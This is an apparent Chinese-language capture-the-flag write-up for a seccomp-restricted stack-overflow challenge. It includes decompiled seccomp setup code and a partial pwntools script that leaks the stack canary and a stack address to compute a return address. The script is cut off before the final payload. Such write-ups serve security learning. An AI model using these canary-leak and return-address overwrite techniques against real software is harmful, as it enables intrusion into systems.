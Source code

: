 ## level 5

这一关跟上一关没有区别，将退出状态的检验换成了限制进程的系统调用。

这段代码的功能是在程序中设置 seccomp，以限制进程只能调用指定的系统调用。其余未明确允许的系统调用会导致进程被终止。这种技术通常用于增加程序的安全性，防止未知的系统调用带来的安全风险。

```c
   else
    {
      puts("Restricting system calls (default: kill)");
      v17 = seccomp_init(0LL);
      for ( i = 0; i <= 1; ++i )
      {
        v6 = *((_DWORD *)v16 + i);
        v7 = (const char *)seccomp_syscall_resolve_num_arch(0LL, v6);
        printf("Allowing syscall: %s (number %i)\n", v7, v6);
        if ( (unsigned int)seccomp_rule_add(v17, 2147418112LL, *((unsigned int *)v16 + i), 0LL) )
          __assert_fail(
            "seccomp_rule_add(ctx, SCMP_ACT_ALLOW, syscalls_allowed[i], 0) == 0",
            "<stdin>",
            0x9Cu,
            "challenge");
      }
      if ( (unsigned int)seccomp_load(v17) )
        __assert_fail("seccomp_load(ctx) == 0", "<stdin>", 0x9Fu, "challenge");
    }
```

```python
import base64
import requests
from pwn import *
elf = ELF("/challenge/toddlerone_level5.1")
p = process("/challenge/toddlerone_level5.1")
p.recvuntil("Payload size: ")

init_payload_size = 0x30  + 8 + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")


init_payload_size = 0x30 + 8 + 8 
p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
print(response)
stack_value = response[init_payload_size:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xA0 - 0xA0 - 0x40)

real_payload_size = 0x20 + 0x8 + 0x8 + 0x8 + 0x8 + 0x8 + 0x8

p.recvuntil("Payload size: ")
```